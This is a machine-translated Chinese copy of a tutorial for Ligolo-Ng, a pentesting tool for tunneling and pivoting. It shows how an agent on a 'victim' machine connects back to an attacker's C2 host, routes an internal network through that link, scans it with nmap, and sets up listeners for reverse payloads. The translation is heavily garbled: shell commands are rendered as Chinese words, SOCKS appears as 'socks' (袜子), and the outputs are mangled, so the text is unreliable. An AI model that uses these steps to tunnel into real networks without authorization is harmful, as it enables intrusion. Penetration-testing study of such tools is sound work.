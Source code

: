 # Ligolo-Ng:一个先进而简单的隧道/旋转工具，使用了一个 TUN 接口

> 原文：<https://kalilinuxtutorials.com/ligolo-ng/>

[![](img//d334fd023da38aeb29f509b7e368eb25.png)](https://1.bp.blogspot.com/-q07qpJlCJrA/YTYtV3RZS9I/AAAAAAAAKt4/eUcVYvnpKO0r0IWvfWOcHqfrARcPCSJXQCLcBGAsYHQ/s1491/logo%2B%25281%2529.png)

**Ligolo-Ng** 是一个*简单*、*轻量级*和*快速*的工具，允许 pentesters 从反向 TCP/TLS 连接建立隧道，而不需要 SOCKS。

**特色**

*   Tun 界面(没有更多的袜子！)
*   带有*代理*选择和*网络信息*的简单 UI
*   易于使用和设置
*   让我们加密的自动证书配置
*   性能(多路复用)
*   不需要高权限
*   *代理*上的套接字监听/绑定
*   *代理*支持多种平台

**这和 Ligolo/Chisel/Meterpreter 有什么区别…？**

不使用 SOCKS 代理或 TCP/UDP 转发器， **Ligolo-ng** 使用 Gvisor 创建一个用户网络栈。

当运行*中继/代理*服务器时，使用一个 **tun** 接口，发送到该接口的数据包被翻译，然后传输到*代理*远程网络。

例如，对于 TCP 连接:

*   SYN 在远程被转换为 connect()
*   如果 connect()成功，则发送回 SYN-ACK
*   如果连接后返回经济重置、经济启用或经济解除系统调用，则发送 RST
*   如果超时，则不发送任何内容

这允许在不使用*代理链*的情况下运行 *nmap* 之类的工具(更简单、更快)。

**建筑&用途**

**建筑照明**

建筑*照明*:

**$go 构建-o 代理 cmd/agent/main.go
$go 构建-o 代理 cmd/proxy/main . go
# Windows 构建代理
$GOOS=windows go 构建-o agent.exe cmd/agent/main . go**

**设置 Ligolo-ng**

在您的命令和控制(C2)服务器上启动*代理*服务器(将使用默认的 11601 监听):

**$ sudo ip tuntap 添加用户【your_username】模式 tun ligolo
$ sudo ip link 设置 ligolo up
$。/proxy -h #帮助选项
$。/proxy -autocert #自动请求 LetsEncrypt 证书**

**TLS 选项**

**使用加密自动插入**

当使用 **`-autocert`** 选项时，代理会在代理连接时自动为*attack _ C2 _ server . com*请求一个证书(使用 Let's Encrypt)。

让我们加密证书验证/检索，端口 80 需要是可访问的

**使用自己的 TLS 证书**

如果您想为代理服务器使用您自己的证书，您可以使用`**-certfile**`和`**-keyfile**`参数。

**自动自签名证书(不推荐)**

 ***代理/中继*可以使用`-selfcert`选项自动生成自签名 TLS 证书。

`**-ignore-cert**`选项需要和*代理*一起使用。

当心中间人攻击！此选项只应在测试环境中使用或用于调试目的。

**使用 Ligolo-ng**

在您的目标(受害者)计算机上启动*代理*(不需要特权！):

**$。/agent-connect attack _ C2 _ server . com:11601**

一个会话应该出现在*代理服务器*上。

信息[0102]代理加入。name = nchatelain @ nworkstation remote = " XX。XX . XX . XX:38000”

使用`**session**`命令选择*代理*。

**ligolong 会话
？指定一个会话:1–nchatelain @ nworkstation–XX。XX.XX.XX:38000**

使用`**ifconfig**`命令显示代理的网络配置:

**【代理人:新竹@ nworkstation】【ifconfig】

**────────────────────────────────。****

在*代理/中继*服务器上添加一条路由到 *192.168.0.0/24* *代理*网络。

**$ sudo ip 路由 add 192.168.0.0/24 dev ligolo**

在代理上启动隧道:

**【代理人:nchatain @ nworkstation】开始
【代理人:nchatain @ nworkstation】信息【0690】开始隧道到 nchatain @ nworkstation**

您现在可以从*代理*服务器访问 *192.168.0.0/24* *代理*网络。

**$ nmap 192 . 168 . 0 . 0/24-v-sV-n
[…]
$ rdesktop 192 . 168 . 0 . 123
[…]**

**代理绑定/监听**

您可以监听*代理*和*上的端口，将*连接重定向到您的控制/代理服务器。

在 ligolo 会话中，使用`**listener_add**`命令。

以下示例将在代理(0.0.0.0:1234)上创建一个 TCP 侦听套接字，并将连接重定向到代理服务器的 4321 端口

**[Agent:nchatelain @ nworkstation]Listener _ add–addr 0 . 0 . 0 . 0:1234–to 127 . 0 . 0 . 1:4321–TCP
INFO[1208]在远程代理上创建的监听器！**

在`**proxy**`上:

**$ nc -lvp 4321**

当在代理的 TCP 端口`**1234**`上建立连接时，`**nc**`将接收连接。

这在使用反向 tcp/udp 有效负载时非常有用。

您可以使用`**listener_list**`命令查看当前正在运行的监听器，并使用`**listener_stop [ID]**`命令停止它们:

**【代理人:新浪@nworkstation】【列表】T1、【列表】──一个──一个──一个──一个──一个──一个──一个──一个──一个──一个**

是否需要管理员/Root 访问权限？

在*代理*这边，没有！任何事情都可以在没有管理权限的情况下执行。

然而，在您的*中继/代理*服务器上，您需要能够创建一个 *tun* 接口。

**支持的协议/数据包**

*   传输控制协议（Transmission Control Protocol）
*   用户数据报协议(User Datagram Protocol)
*   ICMP(回应请求)

**表现**

您可以轻松达到 100 兆位/秒以上。下面是使用`**iperf**`从 200 兆位/秒服务器到 200 兆位/秒连接的测试。

**$ iper F3-c 10.10.0.1-p 24483
连接主机 10 . 10 . 0 . 1， 端口 24483
[ 5]本地 10.10.0.224 端口 50654 连接到 10.10.0.1 端口 24483
[ ID]间隔传输比特率 Retr Cwnd
[ 5] 0.00-1.00 秒 12.5 兆字节/秒 0 164 千字节
[5]1.00-2.00 秒 12.7 兆字节/秒 0 207 兆字节/秒 4.00-5.00 秒 13.1 兆字节 110 兆字节/秒 2 134 千字节
[ 5] 5.00-6.00 秒 113 兆字节/秒 0 147 千字节
[ 5] 6.00-7.00 秒 12.6 兆字节 105 兆字节/秒 0 158 千字节
[ 5] 7.00-8.00 秒 12.1 兆字节 100**

**注意事项**

因为*代理*在没有特权的情况下运行，所以不可能转发原始数据包。当您执行 NMAP 同步扫描时，会在代理上执行 TCP 连接()。

使用 *nmap* 时，要使用`**--unprivileged**`或`**-PE**`避免误报。

[**Download**](https://github.com/tnpitsecurity/ligolo-ng)**